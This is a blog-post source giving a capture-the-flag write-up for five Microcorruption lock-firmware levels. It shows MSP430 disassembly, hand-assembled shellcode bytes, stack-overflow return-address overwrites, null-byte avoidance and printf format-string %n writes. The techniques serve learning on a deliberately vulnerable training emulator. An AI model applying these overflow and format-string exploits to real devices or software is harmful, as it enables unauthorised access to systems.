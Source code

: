 ```yaml
---
layout: post
title: microcorruption-ctf-johannesburg-whitehorse-montevideo-addisababa-novosibirsk
excerpt: "Writeup for microcorruption's Johannesburg, Whitehorse, Montevideo, Addis Ababa and Novosibirsk levels."
categories: [writeup]
tags: [itsec, wargame]
---
```


[microcorruption](http://www.microcorruption.com)

## Johannesburg ##

``` shell
     - A firmware update rejects passwords which are too long.
     - This lock is attached the the LockIT Pro HSM-1.
```  

This looks a lot like Cusco - where we allocate 63 (`0x3f`) bytes to read user input but only pop 18 off at the end - though there is some weirdness in the main function:

``` shell
4566:  b012 4644      call  #0x4446 <unlock_door>
456a:  3f40 d144      mov #0x44d1 "Access granted.", r15
456e:  023c           jmp #0x4574 <login+0x48>
4570:  3f40 e144      mov #0x44e1 "That password is not correct.", r15
4574:  b012 f845      call  #0x45f8 <puts>
4578:  f190 5c00 1100 cmp.b #0x5c, 0x11(sp)     # compare the 17th byte on sp with 0x5c
457e:  0624           jeq #0x458c <login+0x60>  # if it matches, jump to 4588
4580:  3f40 ff44      mov #0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call  #0x45f8 <puts>
4588:  3040 3c44      br  #0x443c <__stop_progExec__>
458c:  3150 1200      add #0x12, sp             # sp += 18
4590:  3041           ret
```

You can still enter passwords which are too long but the program will check that the 17th byte is equal to `0x5c` - if it isn't `__stop_progExec__` will be called, bypassing the opportunity to overwrite the return address.

Note that `0x12`, or 18 bytes, are added to `sp` before returning and popping the return address off the stack. This means our payload will be something like `<16 bytes of junk>0x5c<another byte><overwritten return address>`. For the latter we can pick `unlock_door`'s address and we're all set.

## Whitehorse ##

``` shell
    - This lock is attached the the LockIT Pro HSM-2.
    - We have updated  the lock firmware to connect with this hardware
      security module.
```

This is getting interesting. `login` looks familiar in that the number of bytes read (`0x30`) differs from the ones we pop (`0x16`). However instead of having `unlock_door` we are met with this rather annoying `conditional_unlock_door`.

``` shell
4508:  3e40 3000      mov #0x30, r14
450c:  0f41           mov sp, r15
450e:  b012 8645      call  #0x4586 <getsn>
4512:  0f41           mov sp, r15
4514:  b012 4644      call  #0x4446 <conditional_unlock_door>
4518:  0f93           tst r15
451a:  0324           jz  #0x4522 <login+0x2e>
451c:  3f40 c544      mov #0x44c5 "Access granted.", r15
4520:  023c           jmp #0x4526 <login+0x32>
4522:  3f40 d544      mov #0x44d5 "That password is not correct.", r15
4526:  b012 9645      call  #0x4596 <puts>
452a:  3150 1000      add #0x10, sp
452e:  3041           ret
```

`conditional_unlock_door` makes use of the `0x7e` interrupt to unlock the door 
``` shelll
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

This interrupt interfaces with the HSM - meaning we get zero visibility on the password. Looking at the doc, we'd really want this to use `0x7f` instead, which is an unconditional unlock (no password checking). However there is no such function in the code.

But fear not! Microcorruption provides us with a way to assemble our own code. We can write our own `unlock` method:

``` shell
push #0x7f
call #0x4532
```

Assembling this gives us `30127f00b0123245`. Now the trick is to point `pc`, the program counter, to it.

There is no stack randomisation and we know exactly where our input will be - just stick a breakpoint at `0x4512`:

``` shell
> r sp 16
   3654:   7061 7373 776f 7264  password
   365c:   0000 0000 0000 0000  ........
   3664:   3c44 0000 0000 0000  <D......
```

Our input will then be `<shellcode><padding to 16 bytes><sp's address>`. Nice.

## Montevideo ##

``` shell
    - Lockitall developers  have rewritten the code  to conform to the
      internal secure development process.
    - This lock is attached the the LockIT Pro HSM-2.
```

At first glance this looks like Whitehorse with a `strcpy`:

``` shell
4508:  3e40 3000      mov #0x30, r14
450c:  3f40 0024      mov #0x2400, r15
4510:  b012 a045      call  #0x45a0 <getsn>
4514:  3e40 0024      mov #0x2400, r14
4518:  0f41           mov sp, r15
451a:  b012 dc45      call  #0x45dc <strcpy>
451e:  3d40 6400      mov #0x64, r13
```

And the same uneven pop at the end. However `strcpy` presents us with a challenge. Let's see what happens when we add in our Cusco's shellcode by putting a breakpoint at `0x451e`:

``` shell
> r sp
   43ee:   3012 7f00 0000 0000  0.....
   43f6:   0000 0000 0000 0000  ........
   43fe:   3c44 3140 0044 1542  <D1@.D.B
   4406:   5c01 75f3 35d0 085a  \.u.5..Z
```

Mmm... It looks like everything after `7f` was ignored. This is because `strcpy` stops copying data once it encounters a null byte (`0x00`). Recall that in order to call the right interrupt we pushed `0x7f` on the stack - which is really `0x7f00` in little endian!

We need to find a way to get rid of the `0x00`. Let's try the below:

``` shell
mov #0x0f70, r15
add #0xf10f, r15
```

It's overflow, but there are no null bytes. Note that if you get something like 'CPUOFF', it's probably because you inadvertly set the 4th bit of the status register (see section 3.2.3 of the TI manual).

Our instructions will look like: 

``` shell
mov #0x0f70, r15
add #0xf10f, r15
push r15
call #0x454c
```

Which assemble to `3f40700f3f500ff10f12b0124c45`. As with Cusco, we just need to pad this and add the return address pointing to our shellcode on the stack. The final input will be `<14 bytes of shellcode><2  bytes of padding><address on stack>`.


## Addis Ababa ##

``` shell
    - We have verified passwords can not be too long.
    - Usernames are printed back to the user for verification.
    - This lock is attached the the LockIT Pro HSM-1.
```

This looks like a `printf` format exploit! Though after some trial and error, the `printf` implementation is rather limited compared to the C one we're used to. However as guessed, `printf` is passed user input directly - that is, `printf(input)` as opposed to `printf('%s', input)`. This is readily observable with input such as `DD:%x`. We also note it seems we need to have a `%x` before we can use `%n`. Mmm...


As a side note, we can't mix hex and ascii in the input. As such we'll need to translate everything into hex.

We can exploit this to write to an arbitrary address - but where? There's a conditional expression (`tst  0`) that looks interesting:

``` shell
448a:  8193 0000      tst 0x0(sp)
448e:  0324           jz  #0x4496 <main+0x5e>
4490:  b012 da44      call  #0x44da <unlock_door>
4494:  053c           jmp #0x44a0 <main+0x68>
4496:  3012 1f45      push  #0x451f "That entry is not valid."
```

If `sp` is 0 (which it is if the password isn't correct), it will jump to `0x4496` - but if it isn't, `unlock_door` will be called. That means we don't even really care what we override the test value with as long as it is greater than 0.

With this in mind our input will be: `<0x448c - the address we want to overwrite>:<padding, though not necessary>%x%n` - with `%n` writing the number of bytes so far to `0x448c`. We will have essentially changed the instruction to:

``` shell
8193 0400
tst 0x4(sp)
```

Where 4 is the number of bytes written. Job done.

## Novosibirsk ##

``` shell
    - This lock is attached the the LockIT Pro HSM-2.
    - We have added features from b.03 to the new hardware.
```

This is very similar to Addis Ababa - but we're not so lucky as having `unlock_door` readily available. Instead we're met with `conditional_unlock_door` which does check a given password with the HSM. Bummer.

All is not lost however. `conditional_unlock_door` raises the following interrupt:

``` shell
44c2:  0e12           push  r14
44c4:  0f12           push  r15
44c6:  3012 7e00      push  #0x7e
44ca:  b012 3645      call  #0x4536 <INT>
```

As we know from the documentation, `0x7e` expects a password to trigger the deadbolt - but `0x7f` doesn't. Could we overwrrite `0x44c8` with `0x7f00`?

Given `printf`'s limitations we would need the ability to enter at least 127 bytes (`0x7f`) as our input.

``` shell
4454:  3e40 f401      mov #0x1f4, r14
4458:  3f40 0024      mov #0x2400, r15
445c:  b012 8a45      call  #0x458a <getsn>
```

Ha. They're giving us `0x1f4` bytes to work with. Plenty. Our input will then look like `<0x44c8 - the address of the 0x7e><padding>%x%n` such that the total length of the payload is 127.
